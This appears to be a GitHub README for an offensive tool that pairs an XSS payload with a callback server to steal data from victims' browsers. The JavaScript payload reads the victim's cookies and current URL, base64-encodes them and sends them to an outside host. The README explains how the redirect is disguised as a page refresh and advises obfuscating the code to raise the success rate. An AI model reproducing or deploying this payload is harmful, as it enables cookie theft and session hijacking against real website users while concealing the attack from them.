 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback address, which returns a **301 Moved Permanently** response sending the victim back to its referer, although this time with a token in the URL anchor, preventing the XSS payload from reactivating.

This enables you to sniff sensitive data via URL parameters when the victim is sent to your callback address.

If the victim did not send a Referer header, you can include the referer address in a URL parameter. If no referer is provided, the victim will be redirected to a panic address of your choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Use the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
  "&data=" + encodeURIComponent( btoa(document.cookie) ) + 
  "&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.<br>If neither a referer parameter or Referer header is present, the panic address is used.</sup>
